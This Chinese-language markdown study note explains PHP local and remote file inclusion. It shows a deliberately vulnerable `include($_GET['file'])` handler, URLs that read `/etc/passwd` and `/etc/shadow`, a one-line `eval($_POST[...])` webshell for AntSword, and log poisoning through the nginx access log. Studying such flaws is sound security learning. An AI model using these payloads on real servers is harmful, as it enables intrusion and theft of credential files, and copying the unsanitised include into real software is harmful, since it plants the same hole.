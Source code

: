 ```yaml
---
title: 08.文件包含
description: 文件包含漏洞
published: 1
date: 2023-05-05T11:55:26.000Z
tags: web safe, file
editor: markdown
dateCreated: 2023-04-19T17:26:52.542Z
---
```


<center>文件包含</center>



[toc]





## 文件包含

> 文件包含: ==包含一个文件==
>
> 远程文件(危害大) 和本地文件

```php
# 本地文件
# index.php

$file = $_GET['file'];

if($file){
    include("$file");
    // include_once()
    // require()
    // require_once()

}else{
    echo 'file fail';
}
```

> url构造请求

```shell
http://127.0.0.1/?file=aa.php

# linux 服务器
http://127.0.0.1/?file=/var/www/html/public/aa.php
# linux的敏感信息
http://127.0.0.1/?file=/etc/passwd
http://127.0.0.1/?file=/etc/shadow
```



### 1.小技巧

> 输入到日志中

```shell
http://127.0.0.1/?file=/var/log/nginx/access.log
```

> 一句话木马

```shell
# aa.php
<?php eval($_POST['goer']); ?>

# 请求
http://127.0.0.1/?file=aa.php

# 下载使用中国蚁剑连接
```

> 如果没有文件上传，又想包含文件呢？

```shell
# 写入到日志中
http://127.0.0.1/?file=<?php eval($_POST['goer']); ?>
```





### 2. 提示

> 一般网站都包含一些共同文件

```shell
robots.txt
# 防止爬虫爬取的页面

# 熟悉服务器上资源
```





















